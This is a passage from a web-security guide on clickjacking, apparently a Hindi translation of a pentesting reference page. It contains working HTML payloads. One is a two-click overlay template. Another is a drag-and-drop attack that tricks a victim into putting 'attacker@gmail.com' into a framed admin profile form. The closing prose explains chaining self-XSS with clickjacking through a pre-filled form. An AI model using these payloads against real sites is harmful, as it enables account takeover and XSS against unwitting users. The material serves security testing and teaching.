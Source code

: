 ```markup
z-index: 1;
}
.secondClick {
left:210px;
}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```
### Drag\&Drop + Click payload
```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
### XSS + Clickjacking

यदि आपने एक **XSS हमले की पहचान की है जो उपयोगकर्ता को** किसी तत्व पर **क्लिक करने की आवश्यकता है** ताकि **XSS को ट्रिगर** किया जा सके और पृष्ठ **क्लिकजैकिंग के लिए संवेदनशील है**, तो आप इसका दुरुपयोग कर सकते हैं ताकि उपयोगकर्ता को बटन/लिंक पर क्लिक करने के लिए धोखा दिया जा सके।\
उदाहरण:\
&#xNAN;_&#x59;ou ने खाते के कुछ निजी विवरणों में एक **स्वयं XSS** पाया (विवरण जो **केवल आप सेट और पढ़ सकते हैं**)। इन विवरणों को सेट करने के लिए **फॉर्म** वाला पृष्ठ **क्लिकजैकिंग** के लिए **संवेदनशील** है और आप **GET पैरामीटर** के साथ **फॉर्म** को **पूर्व-भरे** कर सकते हैं._\
\_\_एक हमलावर उस पृष्ठ के लिए एक **क्लिकजैकिंग** हमले की तैयारी कर सकता है **फॉर्म** को **XSS पेलोड** के साथ **पूर्व-भरे** करके और **उपयोगकर्ता** को फॉर्म को **सबमिट** करने के लिए **धोखा** देकर। तो, **जब फॉर्म सबमिट किया जाता है** और मानों को संशोधित किया जाता है, तो **उपयोगकर्ता XSS को निष्पादित करेगा**।

